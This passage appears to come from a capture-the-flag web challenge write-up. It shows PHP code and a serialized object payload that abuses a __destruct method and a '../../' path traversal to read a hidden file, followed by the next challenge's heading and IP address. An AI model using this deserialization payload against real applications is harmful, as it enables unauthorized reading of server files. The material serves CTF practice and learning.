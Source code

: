 ```php
	public $file='../../PPPPOOO0CCCC.php';
	public function __destruct(){
		echo file_get_contents(dirname(__FILE__).$this->file);
	}
}
$a=new ReadFile;
echo serialize($a);
?>
O:8:"ReadFile":1:{s:4:"file";s:22:"../../PPPPOOO0CCCC.php";}
```
![](http://ww1.sinaimg.cn/large/0074VeWzly1g0ai9nlpzxj312l0fstbh.jpg)


# web16
http://123.206.31.85:1616/



